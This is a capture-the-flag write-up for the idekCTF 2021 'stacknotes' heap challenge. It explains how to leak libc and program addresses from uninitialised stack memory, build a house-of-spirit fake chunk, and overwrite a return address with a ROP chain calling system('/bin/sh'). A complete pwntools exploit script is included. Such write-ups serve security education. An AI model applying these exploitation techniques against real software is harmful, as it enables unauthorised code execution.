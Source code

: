 # Stacknotes

was pwn challenge from idekCTF 2021

it was a heap challenge,

nice menu as you can see :)

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/menu.png)

the source code was provided, but you have to study the binary also to understand how to exploit it...

in the original source code you can see, the stacknote (c)reate function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/source.png)

you can see that you can allocate a chunk up to 0x1000 bytes, that is allocated with malloca..

but, compiler's produced malloca code shows that chunks below 512 bytes will be allocated on stack (and aligned),

and that chunks above 512 bytes will be allocated with malloc.. that's important to know for the rest of the exploitation

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/reverse.png)


So first, we will allocate a chunk on stack, and as alloca does not clear the allocated chunk,

we will leak the usefull values already present on stack in this chunk:

* the libc address of `_IO_2_1_stdout_` that we will use to calculate libc mapping address base..

* an address belonging to the program, that we will use to calculate prog base

No we allocate another chunk of 31bytes on stack , it will be just before our first chunk (as stack grows downward)

and we will create a fake chunk, to make a "house of spirit" attack.. a chunk of 0x300 size...

now we delete our first bloc, that will go in 0x300 chunk list..

when we allocate it again, we will get a chunk on stack (bigger than the original),

where we can directly write our ROP over the return address (and jumping over the canary)..

and that's it we got shell

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/gotshell.gif)


ok...

If you understand nothing on my explanation,

you can read the code...

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./stacknotes')
libc = ELF('./libc.so.6')
rop = ROP(exe)

host, port = "stacknotes.chal.idek.team", "1337"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

def create(idx,size):
  p.sendlineafter('> ','c')
  p.sendlineafter('note?\n', str(idx))
  p.sendlineafter('note?\n', str(size))

def write(idx,data):
  p.sendlineafter('> ','w')
  p.sendlineafter('in?\n', str(idx))
  p.sendafter('content:\n', data)

def delete(idx):
  p.sendlineafter('> ','d')
  p.sendlineafter('delete?\n', str(idx))

def view(idx):
  p.sendlineafter('> ','v')
  p.sendlineafter('view\n', str(idx))

# create a buffer on stack
create(0,112)
# leak various usefull address on stack
view(0)

p.recvuntil('Note:\n', drop=True)
buff = p.recv(112)

libc.address = u64(buff[0:8]) - libc.sym['_IO_2_1_stdout_']
print('libc base = '+hex(libc.address))
progbase = u64(buff[8:16]) - 0x2224
print('prog base = '+hex(progbase))

create(1,31)
# House of spirit , create a false chunk on stack
write(1,p64(0)*3+'\x00\x03'+'\x00'*5)
# put fake chunk in tcache list
delete(0)

# get our big chunk allocated on stack
create(2,0x2f0)
view(2)
p.recvuntil('Note:\n', drop=True)
buff = p.recv(0x2f0)
buff = bytearray(buff)

pop_rdi = progbase+rop.find_gadget(['pop rdi', 'ret'])[0]
ret = progbase+rop.find_gadget(['ret'])[0]

# directly wrote a ROP at return address on stack (system('/bin/sh'))
buff[152:160] = p64(pop_rdi)
buff[160:168] = p64(next(libc.search('/bin/sh')))
buff[168:176] = p64(ret)
buff[176:184] = p64(libc.sym['system'])

# write our modified buffer
write(2, bytes(buff))

# got shell
p.sendlineafter('> ','e')

p.sendline('id;cat /flag*')
p.interactive()
```

*nobodyisnobody still pwning things...*

